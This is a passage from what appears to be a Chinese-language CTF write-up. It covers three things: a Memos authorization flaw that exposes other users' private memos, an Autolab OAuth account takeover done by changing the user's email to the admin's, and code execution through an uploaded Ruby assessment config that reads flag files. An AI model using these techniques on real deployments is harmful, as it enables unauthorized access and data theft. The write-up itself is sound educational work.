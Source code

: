 ```go
} else if find.CreatorID != nil && *find.CreatorID != user.ID {
	// Fixed in b4d72e334993c372ec1567362b8f1f75a9f77122
	find.VisibilityList = []store.Visibility{store.Public, store.Protected}
}
```
这里我们可以发现一个问题，当用户登录后，只有在指定了`CreatorID`参数的情况下，才会检查UID是否匹配，并在不匹配时强制覆盖`VisibilityList`，于是当我们是已登录用户时，只需要不指定用户ID，即可查询到其他用户的私有Memo。

登录后转到Explore页面，在调试器中搜索`ListMemos`相关代码并打上断点，重新进入该页面，断点触发时在请求中修改可见性参数即可。
## ICS笑传之抄抄榜 `web-manuallab`
### flag1
没认真做，在后续解题过程中可以顺便找到。
### flag2
题目给出了OAuth Connector的实现源码：https://github.com/autolab/Autolab/pull/2194

在这个实现中，Autolab会在用户登录时使用邮箱去查找账号，如果没有查找到账号则创建一个新的。在首次使用OAuth登录的过程中，一闪而过了这样的界面：
{% asset_img "Pasted image 20241017201748.png" }
在这个管理页面的“用户设置”栏目中，邮箱居然是可以修改的，于是现在的目标就是找到管理员账户对应的邮箱。

进入系统，发现用户列表中只能看到当前用户（管理员并非该课程的教师），一番寻找后在页面底部的Contact Us页面中找到了一个邮箱地址：
{% asset_img "Pasted image 20241017202018.png" }
将UAAA中的邮箱地址改为该地址，重新登录（如果不行的话重启一下环境），即可以管理员身份进入后台，flag2在`/admin/autolab_config`页面中。
### flag3 (first blood)
此时需要在Autolab中实现任意文件读，或者最好是RCE。Autograder肯定会执行我们上传的代码，但是不动脑子也能想到大概率是在单独的容器或者虚拟机中进行，此路不通。

又是一通乱点，在Edit assessment界面中发现可以上传Ruby脚本文件：
{% asset_img "Pasted image 20241017202523.png" }
在Autolab源码中搜索Assessment Config，找到如下文档：
* https://github.com/autolab/Autolab/blob/93248801b5e84465f8eb10334eef2e56d407ae0c/docs/lab.md?plain=1#L361
* https://docs.autolabproject.com/lab-hooks/#lab-handout
发现确实可以通过上传配置文件来实现执行代码，并且此时是在Autolab的环境中执行的，于是编写如下`datalab.rb`文件：
```ruby
require "AssessmentBase.rb"

def list_dir_as_string
    return Dir.entries("/mnt").join(" ")
end

module Datalab
    include AssessmentBase

    def handout
        course = @assessment.course.name
        asmt = @assessment.name
        file = "autograde-Makefile"
        file_path = "courses/#{course}/#{asmt}/#{file}"
        filename = "makefile"
        Hash["fullpath", file_path, "filename", File.read("/mnt/flag3")]
    end
end
```
上传后，点击Assessment页面中的Options - Download handout，即可在文件名中看到输出。`/mnt`中有本题目的所有flag。
## 好评返红包 `web-crx`
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
```